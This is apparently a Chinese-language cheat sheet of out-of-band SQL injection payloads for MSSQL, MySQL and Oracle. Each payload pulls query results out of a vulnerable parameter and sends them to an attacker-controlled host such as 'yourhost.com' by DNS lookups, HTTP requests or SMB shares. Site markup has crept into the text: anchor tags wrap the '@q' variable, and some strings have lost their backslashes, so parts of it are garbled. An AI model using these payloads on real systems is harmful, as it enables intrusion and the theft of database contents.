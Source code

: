 {INJECTION} = 你想要执行的查询。

?vulnerableParam=1; SELECT * FROM OPENROWSET('SQLOLEDB', ({INJECTION})+'.yourhost.com';'sa';'pwd', 'SELECT 1')
将 DNS 解析请求转到 {INJECT}.yourhost.com

?vulnerableParam=1; DECLARE <a href="http://www.jobbole.com/members/caogen">@q</a> varchar(1024); SET <a href="http://www.jobbole.com/members/caogen">@q</a> = ''+({INJECTION})+'.yourhost.comtest.txt'; EXEC master..xp_dirtree <a href="http://www.jobbole.com/members/caogen">@q</a>
将 DNS 解析请求转到 {INJECTION}.yourhost.com

MySQL

{INJECTION} = 你想要执行的查询。

?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('',({INJECTION}), 'yourhost.com')))
将 NBNS 查询请求或 DNS 解析请求转到 com

?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE 'yourhost.comshareoutput.txt')
将数据写到你的共享文件夹或文件

Oracle

{INJECTION} = 你想要执行的查询。

?vulnerableParam=(SELECT UTL_HTTP.REQUEST('http://host/ sniff.php?sniff='||({INJECTION})||'') FROM DUAL)
嗅探程序将会保存结果

?vulnerableParam=(SELECT UTL_HTTP.REQUEST('http://host/ '||({INJECTION})||'.html') FROM DUAL)
结果将会被保存到 HTTP 访问日志

?vulnerableParam=(SELECT UTL_INADDR.get_host_addr(({INJECTION})||'.yourhost.com') FROM DUAL)
你需要监测去到com 的 DNS 解析请求

?vulnerableParam=(SELECT SYS.DBMS_LDAP.INIT(({INJECTION})||’.yourhost.com’,80) FROM DUAL) 
你需要监测去到com 的 DNS 解析请求
